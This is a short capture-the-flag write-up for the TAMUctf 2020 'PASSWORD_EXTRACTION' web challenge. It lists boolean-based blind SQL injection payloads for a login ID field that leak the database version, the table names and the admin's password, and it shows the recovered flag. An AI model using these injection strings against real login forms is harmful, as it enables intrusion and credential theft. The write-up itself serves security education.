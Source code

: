 # PASSWORD_EXTRACTION Writeup

### TAMUctf 2020 - Web 50

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?
>
> http://passwordextraction.tamuctf.com
>
> You do not need to use brute force for this challenge.

#### Blind SQL Injection

Goal: leak admin password.

First I leaked mysql version:

- ID: `admin' and ascii(substring(version(), {}, 1)){}{} #`

```
5.7.29-0ubuntu0.18.04.1
```

Next leak table names:

- ID: `admin' and ascii(substring((select group_concat(table_name) from information_schema.tables limit 0, 1), {}, 1)){}{} #`
- User defined tables:

```
accounts,columns_pr
```

Finally leak password of admin:

- ID: `admin' and ascii(substring((select password from accounts where username='admin'), {}, 1)){}{} #`
- Get flag:

```
gigem{h0peYouScr1ptedTh1s}
```